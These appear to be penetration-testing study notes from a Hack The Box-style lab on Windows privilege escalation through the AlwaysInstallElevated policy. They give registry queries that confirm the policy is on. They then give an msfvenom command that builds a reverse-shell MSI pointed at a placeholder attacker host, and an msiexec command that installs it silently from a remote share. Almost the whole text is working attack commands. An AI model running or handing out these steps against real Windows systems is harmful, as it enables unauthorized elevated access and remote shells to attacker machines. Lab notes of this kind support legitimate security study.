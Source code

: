 Requirements:
- two checks are required, , msi elevated is enabled, and enabled for current user
`check if its enabled for current user`
```powershell-session
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

    AlwaysInstallElevated    REG_DWORD    0x1
```

---
 
`check if alwaysinstallelevated is enabled`
```powershell-session
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

    AlwaysInstallElevated    REG_DWORD    0x1
```
### exploit
`payload (to be installed msi file)`
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=$attacker lport=443 -f msi -o reverse.msi
```

`run the exploit`
```cmd-session
	C:\htb> msiexec /i \\tsclient\share\Ser.msi /quiet /qn /norestart
```
 